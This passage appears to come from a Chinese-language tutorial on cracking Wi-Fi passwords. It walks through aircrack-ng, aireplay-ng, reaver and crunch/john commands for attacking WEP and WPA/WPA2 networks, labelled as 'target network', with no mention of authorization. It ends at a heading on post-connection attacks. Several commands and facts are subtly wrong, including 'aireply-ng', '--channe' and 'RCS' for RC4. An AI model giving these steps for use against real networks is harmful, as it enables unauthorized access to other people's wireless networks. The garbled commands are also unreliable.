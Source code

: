 >這次不write文件
### 10.WEP
>WEP是使用RCS算法加密，加密比較簡單也比較好破解
>![](https://i.imgur.com/acb1sKC.png)
>先執行第七步驟
```
$ airodump-ng --bssid (目標網路bssid) --channe (目標網路channel) --write basic mon0
```
>(接下來分成兩種狀況)
>一種是網路未閒置，執行以下分析網路程式
```
$ aircrack-ng basic-01.cap mon0
```
>basic-01這部份，write檔名可以任意，預設會給01，解析cap檔，得到的結果會是00:11:22:33:44:55格式，去掉冒號後就是密碼。
>
>第二種是，網路閒置，需要先與網路建立關聯，一般狀況，網路會自動屏蔽未連接而沒提供密碼的詢問，執行以下程式，其中mac address是bssid，此種叫做ARP攻擊
```
$ aireplay-ng --fakeauth 0 -a (目標網路mac address) -h (unspec) mon0 #unspec的-要改:
```
>同時執行，ifconfig得到的unspec前12位數字放入上面，要把-改成 :，其中unspec是ether，只是在monitor模式下是unspec，這樣就成功建立了關聯。
```
$ aireply-ng --arpreply -b (目標網路mac) -h (unspec) mon0
```
>ARP攻擊：因為不夠數據，所以要不斷的向伺服器發送請求讓網路產生新的IV
### 11. WPA/WPA2
>也是一種網路加密，比WEP更難破解，有兩種攻擊方式
```
$ aireplay-ng --fakeauth 30 -a (目標網路mac address) -h (uspec前12碼) wlan0
```
上述指令是製造關聯
```
$ wash --interface wlan0
```
這個指令可以快速看到接口連接的網路
```
$ reaver --bssid (目標網路mac address) --channel (ch) -interface wlan0 -vvv -no-associate
```
上述為暴力破解指令
>通常情況下，商數方式並沒有辦法真的破解network passwd，我們需要使用以下方法
```
$ airodump-ng wlan0
```
執行後可以看到查看router觀測的網路資訊
```
$ airodump-ng --bssid (bssid) --ch (ch) (--write text) wlan0
```
上面這段指令是用來捕捉handshake
### 進階WPA2
```
$ crunch (number) (number) | aircrack-ng -b (bssid) -w - (handshake)
```
執行上述可以在不佔用儲存的情況下建立wordlist並破解handshake
```
$ crunch (number) (number) | john --stdin --session=session1 --stdout | aircrack-ng -b (bssid) -w - (handshake)
```
與上述指令一樣，只是多了儲存進度
```
$ crunch (number) (number) | john --stdin --restore=session1 --stdout | aircrack-ng -b (bssid) -w - (handshake)
```
在剛剛儲存的進度下繼續執行
### 12. 連接後攻擊-資訊收集
```
$ ifconfig
```